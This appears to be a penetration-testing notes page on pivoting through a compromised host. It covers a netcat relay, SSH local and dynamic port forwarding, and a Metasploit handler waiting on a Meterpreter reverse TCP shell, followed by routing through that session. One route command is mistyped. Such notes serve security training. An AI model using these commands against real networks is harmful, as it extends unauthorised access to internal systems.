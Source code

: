 # Pivoting

The technique of using one compromised machine to access another is called pivoting.

## Netcat Relay

```Shell
$mknod backpipe p
$nc –l –p 80 0<backpipe | nc 192.168.128.128 80 1>backpipe
```

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/master/assets/netcat_relay.png)

## SSH Local Port Forwarding

SSH local port forwarding is set up by the command below:

```Shell
$ ssh –L port:destination_host:destination_port username@pivot_host
```

`-L` indicates to use local port forwarding

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/master/assets/ssh_local.png)

## SSH Dynamic Port Forwarding

The syntax is as below:

```Shell
ssh –D address:port –f –N username@pivot_host
```

`-D` indicates to use dynamic port forwarding, `address` is local machine \(127.0.0.1\)

An example is shown below:

```
# ssh -D 127.0.0.1:9150 -f -N user@192.168.112.132`
user@192.168.112.132's password:
```

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/master/assets/ssh_dynamic_port_fwd.png)

 _**SSH dynamic port forwarding can access multiple systems on different ports.**_

### Pivot with Metasploit and Meterpreter Sessions

**Step 1** Start the multi/handler exploit

```Shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.112.132
LHOST => 192.168.112.132
msf exploit(handler) > set LPORT 2222
LPORT => 2222
msf exploit(handler) > run
```

**Step 2** Run the executable on the compromised host and establish a Meterpreter session

**Step 3** Set up pivot by the metasploit route command

```Shell
msf exploit(handler) > route add192.168.128.0255.255.255.0 1
[*] Route added
msf auxiliary(tcp) > route print
```

**Step 4** Now metasploit modules can pivot through the compromised host and target  
systems on the internal network \(192.168.128.0/24\).

## Pivoting Technique Summary

### ![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/master/assets/pivot_summary.png)

## Interaction Between Web Application Penetration Testing Tools and pivoting

## ![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/master/assets/web_app_tool_pivot.png)

